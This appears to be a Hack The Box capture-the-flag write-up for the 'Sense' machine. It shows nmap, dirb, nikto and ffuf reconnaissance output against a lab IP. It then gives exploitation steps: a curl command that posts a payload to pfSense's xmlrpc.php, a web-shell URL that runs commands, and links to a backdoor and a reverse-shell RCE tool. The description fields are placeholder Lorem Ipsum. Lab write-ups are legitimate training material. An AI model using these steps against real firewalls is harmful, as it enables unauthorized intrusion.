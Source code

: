 ```yaml
---
title: Sense - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-07
image: images/sense_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/sense_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/sense]# nmap -Pn -n -sCV 10.10.10.60 --open                                                                        (master✱)
    PORT    STATE SERVICE    VERSION
    80/tcp  open  http       lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Did not follow redirect to https://10.10.10.60/
    443/tcp open  ssl/https?
    | ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
    | Not valid before: 2017-10-14T19:21:35
    |_Not valid after:  2023-04-06T19:21:35
    |_ssl-date: TLS randomness does not represent time

  DIRB:
  ==> DIRECTORY: https://10.10.10.60/classes/
  ==> DIRECTORY: https://10.10.10.60/css/
  + https://10.10.10.60/favicon.ico (CODE:200|SIZE:1406)
  ==> DIRECTORY: https://10.10.10.60/includes/
  + https://10.10.10.60/index.html (CODE:200|SIZE:329)
  + https://10.10.10.60/index.php (CODE:200|SIZE:6690)
  ==> DIRECTORY: https://10.10.10.60/installer/
  ==> DIRECTORY: https://10.10.10.60/javascript/
  ==> DIRECTORY: https://10.10.10.60/themes/
  ==> DIRECTORY: https://10.10.10.60/tree/
  ==> DIRECTORY: https://10.10.10.60/widgets/
  + https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384)

  NIKTO:
  + Cookie cookie_test created without the secure flag
  + Cookie cookie_test created without the httponly flag
  + Multiple index files found: /index.php, /index.html
  + Hostname '10.10.10.60' does not match certificate's names: Common
  + Allowed HTTP Methods: OPTIONS, GET, HEAD, POST


2. Check the pages to see what we have to work with;

  https://10.10.10.60/index.php is a login page to a pfsense firewall.
  https://10.10.10.60/xmlrpc.php is used by pfsense, and is vital from privilege escallation.

  https://10.10.10.60/tree/ is running SilverStripe Tree Control: v0.1, 30 Oct 2005. Sounds old and probably have some vulns.

  We are unable to do anything with the info we've found. So take one step back and start to fuzz.


3. Fuzzing!

    root@nidus:/srv/pub-share# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u https://sense.htb/FUZZ.txt
      --- snip ---
      changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]

    [root:/git/htb/sense]# curl -k https://sense.htb/changelog.txt                                                                  (master✱)
      # Security Changelog

      ### Issue
      There was a failure in updating the firewall. Manual patching is therefore required

      ### Mitigated
      2 of 3 vulnerabilities have been patched.

      ### Timeline
      The remaining patches will be installed during the next maintenance window#

  The unpatched vuln they mention above, is hopefully the xmlrpc RCE. However this doesn't really help right now - so continue to fuzz.




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


https://github.com/chadillac/pfsense_xmlrpc_backdoor
[root:/git/htb/sense]# curl -k --data @pfsense_exec https://10.10.10.60/xmlrpc.php
https://10.10.10.60/ignore.php?cmd=whoami

https://github.com/spencerdodd/pfsense-code-exec    <-- full RCE rev shell.

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
